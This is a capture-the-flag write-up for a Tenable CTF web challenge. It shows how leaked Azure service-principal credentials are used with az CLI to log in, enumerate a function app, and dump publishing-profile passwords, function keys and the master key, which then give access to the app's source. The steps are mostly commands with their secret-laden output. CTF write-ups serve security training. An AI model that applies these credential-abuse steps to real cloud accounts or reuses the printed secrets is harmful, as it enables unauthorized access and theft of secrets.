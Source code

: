 # The Obligatory Lambda 
**Web, 300**

### Prompt

Spoiler: It's not actually Lambda.

A colleague accidentally pasted some credentials to the wrong chat, but didn't change them after deleting the message. See if you can figure out what they go to.

username: 556973dd-ae65-499a-b19f-fafdc42d1884 tenant: 601fd801-c161-434e-add7-82dd3581b8cb password: qum8Q~P-nsLdUotALCCCYWM.5-~URbq3wW2-6aU9

### Solution 
The credentials are very Azure. 

```bash
> az login --service-principal -u 556973dd-ae65-499a-b19f-fafdc42d1884 -p qum8Q~P-nsLdUotALCCCYWM.5-~URbq3wW2-6aU9 --tenant 601fd801-c161-434e-add7-82dd3581b8cb
[
  {
    "cloudName": "AzureCloud",
    "homeTenantId": "601fd801-c161-434e-add7-82dd3581b8cb",
    "id": "5114ad5f-eba0-48cb-ac20-70d475fff746",
    "isDefault": true,
    "managedByTenants": [],
    "name": "Azure subscription 1",
    "state": "Enabled",
    "tenantId": "601fd801-c161-434e-add7-82dd3581b8cb",
    "user": {
      "name": "556973dd-ae65-499a-b19f-fafdc42d1884",
      "type": "servicePrincipal"
    }
  }
]
```
Note that the `--service-principle` is necessary. You might also need port 80 and 443 exposed. 

Now we have (way too) many options. An interesting finding is that there's an Azure function app under this account. 
```bash
azure functionapp fetch-app-settings tenable-ctf
``` 

shows the url
```json
"defaultHostName": "tenable-ctf.azurewebsites.net",
```

We can also find all *functions* under this function app. 
```bash
> func azure functionapp list-functions tenable-ctf --show-keys
https://tenable-ctf.azurewebsites.net/api/getflag?code=eb9awF91rLqXFBaHQQDxxaJRfvbICt6LCYcqDrgZkIEu1aimjFAGKg==
```  
I don't have a screenshot, but the website asks for a *id* parameter. If the provided one isn't the same as the expected, the website returns *I happen to know xxx, but you look nothing like them.*

There are a couple ways to access the source code: 
- Use the [kudu service](https://github.com/projectkudu/kudu/wiki/Accessing-the-kudu-service), authenticate with deployment credentials. That means visiting https://tenable-ctf.scm.azurewebsites.net/basicauth with the credential below. 
```bash
> az functionapp deployment list-publishing-profiles -g ctf -n tenable-ctf
[
  {
    "SQLServerDBConnectionString": "",
    "controlPanelLink": "http://windows.azure.com",
    "databases": null,
    "destinationAppUrl": "http://tenable-ctf.azurewebsites.net",
    "hostingProviderForumLink": "",
    "msdeploySite": "tenable-ctf",
    "mySQLDBConnectionString": "",
    "profileName": "tenable-ctf - Web Deploy",
    "publishMethod": "MSDeploy",
    "publishUrl": "tenable-ctf.scm.azurewebsites.net:443",
    "userName": "$tenable-ctf",
    "userPWD": "jwZ37Afo2xnKimhqiExaeqCGba5oPqSmKmCsgx2zyDXFGrdsfs5bQH60oxj1",
    "webSystem": "WebSites"
  },
  {
    "SQLServerDBConnectionString": "",
    "controlPanelLink": "http://windows.azure.com",
    "databases": null,
    "destinationAppUrl": "http://tenable-ctf.azurewebsites.net",
    "ftpPassiveMode": "True",
    "hostingProviderForumLink": "",
    "mySQLDBConnectionString": "",
    "profileName": "tenable-ctf - FTP",
    "publishMethod": "FTP",
    "publishUrl": "ftp://waws-prod-dm1-157.ftp.azurewebsites.windows.net/site/wwwroot",
    "userName": "tenable-ctf\\$tenable-ctf",
    "userPWD": "jwZ37Afo2xnKimhqiExaeqCGba5oPqSmKmCsgx2zyDXFGrdsfs5bQH60oxj1",
    "webSystem": "WebSites"
  },
  {
    "SQLServerDBConnectionString": "",
    "controlPanelLink": "http://windows.azure.com",
    "databases": null,
    "destinationAppUrl": "http://tenable-ctf.azurewebsites.net",
    "hostingProviderForumLink": "",
    "mySQLDBConnectionString": "",
    "profileName": "tenable-ctf - Zip Deploy",
    "publishMethod": "ZipDeploy",
    "publishUrl": "tenable-ctf.scm.azurewebsites.net:443",
    "userName": "$tenable-ctf",
    "userPWD": "jwZ37Afo2xnKimhqiExaeqCGba5oPqSmKmCsgx2zyDXFGrdsfs5bQH60oxj1",
    "webSystem": "WebSites"
  },
  {
    "SQLServerDBConnectionString": "",
    "controlPanelLink": "http://windows.azure.com",
    "databases": null,
    "destinationAppUrl": "http://tenable-ctf.azurewebsites.net",
    "ftpPassiveMode": "True",
    "hostingProviderForumLink": "",
    "mySQLDBConnectionString": "",
    "profileName": "tenable-ctf - ReadOnly - FTP",
    "publishMethod": "FTP",
    "publishUrl": "ftp://waws-prod-dm1-157dr.ftp.azurewebsites.windows.net/site/wwwroot",
    "userName": "tenable-ctf\\$tenable-ctf",
    "userPWD": "jwZ37Afo2xnKimhqiExaeqCGba5oPqSmKmCsgx2zyDXFGrdsfs5bQH60oxj1",
    "webSystem": "WebSites"
  }
]
```

- Use Azure Storage Explorer. [Here's a nice write-up with this approach by @langemyh](https://github.com/langemyh/writeups/blob/main/tenable-ctf/2022/web/The%20Obligatory%20Lambda%20Challenge.md)
- I am not sure how this is discovered, but you can send a request to https://tenable-ctf.azurewebsites.net/admin/vfs/home/site/wwwroot/getFlag/\_\_init\_\_.py. You need to provide the *masterKey* in the *x-functions-key* field in the request header. The *masterKey* can be retrieved by
```bash
az functionapp keys list -n tenable-ctf -g ctf
{
  "functionKeys": {
    "default": "SnYQlFoW9NK/l3s9Myv2/5FybfAlVx6jVgaY4Z/aAZEizoH2Fl0bOg=="
  },
  "masterKey": "ooc2eagHaw/1OEEkzwLtOdlF10l35D8ttobTlLMaMb6F9paF6Lvz9Q==",
  "systemKeys": {}
}
```
The response looks like 
<img width="971" alt="Capture" src="https://user-images.githubusercontent.com/21980161/173721044-51fa4e20-2ff6-4a2c-b22c-9a970209a1f9.PNG">

